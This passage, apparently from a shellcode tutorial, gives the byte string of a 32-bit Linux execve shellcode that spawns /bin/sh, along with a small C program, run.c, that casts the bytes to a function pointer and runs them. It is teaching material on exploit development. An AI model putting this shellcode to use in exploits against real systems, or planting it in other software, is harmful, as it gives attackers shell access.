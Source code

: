 ![execve shellcode 2.1](./images/12/2021-10-11_13-35.png){width="80%"}    

So, our shellcode is:       
```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:     
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```
